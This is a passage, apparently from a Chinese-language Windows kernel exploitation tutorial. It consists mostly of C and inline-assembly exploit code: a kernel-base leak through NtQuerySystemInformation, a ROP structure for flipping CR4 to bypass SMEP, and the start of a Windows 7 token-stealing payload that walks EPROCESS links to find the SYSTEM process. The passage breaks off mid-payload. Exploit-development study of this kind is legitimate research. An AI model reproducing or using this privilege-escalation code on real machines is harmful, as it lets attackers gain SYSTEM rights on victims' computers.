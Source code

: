 ```
    SYSTEM_MODULE_INFORMATION_ENTRY Module[1];
`}` SYSTEM_MODULE_INFORMATION, *PSYSTEM_MODULE_INFORMATION;

typedef struct _ROP `{`
    PUCHAR PopRcxRet;
    PUCHAR Cr4RegValue;
    PUCHAR MovCr4EcxRet;
`}` ROP, *PROP;

typedef NTSTATUS(NTAPI *_NtQuerySystemInformation)(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );

__int64* GetKernelBase()
`{`
    DWORD len;
    PSYSTEM_MODULE_INFORMATION ModuleInfo;
    __int64 *kernelBase = NULL;
    _NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)
        GetProcAddress(GetModuleHandle("ntdll.dll"), "NtQuerySystemInformation");
    if (NtQuerySystemInformation == NULL) `{`
        return NULL;
    `}`
    NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &amp;len);
    ModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!ModuleInfo)
    `{`
        return NULL;
    `}`
    NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, len, &amp;len);
    kernelBase = (__int64*)ModuleInfo-&gt;Module[0].ImageBase;
    VirtualFree(ModuleInfo, 0, MEM_RELEASE);
    return kernelBase;
`}`
```

回到正文，此时代码修改如下:

```
VOID TokenStealingPayloadWin7() `{`
    // Importance of Kernel Recovery
    __asm `{`
        pushad; Save registers state

        ; Start of Token Stealing Stub
        xor eax, eax; Set ZERO
        mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
        ; _KTHREAD is located at FS : [0x124]

        mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

        mov ecx, eax; Copy current process _EPROCESS structure

        mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

        SearchSystemPID:
        mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
        sub eax, FLINK_OFFSET
        cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
        jne SearchSystemPID
```